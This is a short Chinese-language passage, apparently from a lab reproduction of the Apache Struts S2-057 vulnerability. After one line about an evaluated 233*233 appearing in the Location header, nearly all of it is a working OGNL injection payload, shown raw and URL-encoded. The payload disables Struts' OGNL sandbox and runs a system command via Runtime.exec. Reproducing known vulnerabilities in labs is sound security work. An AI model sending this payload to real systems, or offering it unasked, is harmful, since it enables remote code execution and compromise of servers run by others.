 ![s2-057-2](images/s2-057-2.png)

可见 233\*233 的结果已返回在 Location 头中。

使用 S2-057 复现过程中给出的执行任意命令的 OGNL 表达式:

urlencode 前

```
${
(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#ct=#request['struts.valueStack'].context).(#cr=#ct['com.opensymphony.xwork2.ActionContext.container']).(#ou=#cr.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ou.getExcludedPackageNames().clear()).(#ou.getExcludedClasses().clear()).(#ct.setMemberAccess(#dm)).(#a=@java.lang.Runtime@getRuntime().exec('id')).(@org.apache.commons.io.IOUtils@toString(#a.getInputStream()))}
```

urlencode 后

```
%24%7b%0d%0a%28%23%64%6d%3d%40%6f%67%6e%6c%2e%4f%67%6e%6c%43%6f%6e%74%65%78%74%40%44%45%46%41%55%4c%54%5f%4d%45%4d%42%45%52%5f%41%43%43%45%53%53%29%2e%28%23%63%74%3d%23%72%65%71%75%65%73%74%5b%27%73%74%72%75%74%73%2e%76%61%6c%75%65%53%74%61%63%6b%27%5d%2e%63%6f%6e%74%65%78%74%29%2e%28%23%63%72%3d%23%63%74%5b%27%63%6f%6d%2e%6f%70%65%6e%73%79%6d%70%68%6f%6e%79%2e%78%77%6f%72%6b%32%2e%41%63%74%69%6f%6e%43%6f%6e%74%65%78%74%2e%63%6f%6e%74%61%69%6e%65%72%27%5d%29%2e%28%23%6f%75%3d%23%63%72%2e%67%65%74%49%6e%73%74%61%6e%63%65%28%40%63%6f%6d%2e%6f%70%65%6e%73%79%6d%70%68%6f%6e%79%2e%78%77%6f%72%6b%32%2e%6f%67%6e%6c%2e%4f%67%6e%6c%55%74%69%6c%40%63%6c%61%73%73%29%29%2e%28%23%6f%75%2e%67%65%74%45%78%63%6c%75%64%65%64%50%61%63%6b%61%67%65%4e%61%6d%65%73%28%29%2e%63%6c%65%61%72%28%29%29%2e%28%23%6f%75%2e%67%65%74%45%78%63%6c%75%64%65%64%43%6c%61%73%73%65%73%28%29%2e%63%6c%65%61%72%28%29%29%2e%28%23%63%74%2e%73%65%74%4d%65%6d%62%65%72%41%63%63%65%73%73%28%23%64%6d%29%29%2e%28%23%61%3d%40%6a%61%76%61%2e%6c%61%6e%67%2e%52%75%6e%74%69%6d%65%40%67%65%74%52%75%6e%74%69%6d%65%28%29%2e%65%78%65%63%28%27%69%64%27%29%29%2e%28%40%6f%72%67%2e%61%70%61%63%68%65%2e%63%6f%6d%6d%6f%6e%73%2e%69%6f%2e%49%4f%55%74%69%6c%73%40%74%6f%53%74%72%69%6e%67%28%23%61%2e%67%65%74%49%6e%70%75%74%53%74%72%65%61%6d%28%29%29%29%7d
```
